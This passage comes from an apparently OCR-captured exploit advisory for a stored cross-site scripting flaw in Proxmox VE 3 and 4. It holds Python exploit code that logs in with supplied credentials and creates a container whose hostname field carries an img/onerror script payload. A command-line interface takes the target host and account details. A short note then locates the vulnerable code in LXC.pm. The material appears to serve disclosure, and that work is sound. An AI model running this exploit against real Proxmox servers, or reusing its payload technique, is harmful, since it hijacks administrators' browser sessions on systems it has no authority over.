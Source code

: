                                                "hostname":"<img/src='x'/onerror=%s>" % payload,
                                               "storage": "local",
                                               "password": "xyz",
                                               "ostemplate": template,
                                               "memory": 512,
                                               "swap": 512,
                                               "disk": 2,
                                               "cpus": 1,
                                               "netif":"ifname=eth0,bridge=vmbr0"})
            if createvm.status_code == 200:
                response = createvm.json()
                if "success" in response and response["success"]:
                    print "[+] Stored XSS Created."
                else:
                    print "[!] Error creating container..."
                    print response
            else:
                print "[!] Error creating Container. Bad HTTP Status code : %d" % createvm.status_code
        else:
            print "[!] Authentication failed - Check the credentials..."

    if __name__ == "__main__":
        print "[~] Proxmox VE 3/4b1 Stored Cross Site Scripting - Nicolas Chatelain\n"

        parser = argparse.ArgumentParser()
        parser.add_argument("--target", required=True, help="The target host (eg : 10.0.0.1:8006)")

        parser.add_argument("--username", required=True)
        parser.add_argument("--password", required=True)

        parser.add_argument("--vmid", required=False, default="999", type=int, help="A unique ID for the container, exploit will fail if the ID already exists.")

        parser.add_argument("--template", required=False, default="local:vztmpl/debian-7.0-standard_7.0-2_i386.tar.gz",
                            help="An existing template in the hypervisor (default : local:vztmpl/debian-7.0-standard_7.0-2_i386.tar.gz)")

        parser.add_argument("--realm", required=False, default="pam", choices=["pve", "pam"])

        parser.add_argument("--version", default="3", choices=["3", "4"], help="The Proxmox version to exploit")

        parser.add_argument("--hostname", required=True, help="The target hostname")

        args = parser.parse_args()

        exploit(args.target, args.username, args.password, args.vmid, args.template, args.realm, args.version, args.hostname)

---------------
Vulnerable code
---------------

The vulnerable code is located in the /usr/share/perl5/PVE/LXC.pm for Proxmox 4.
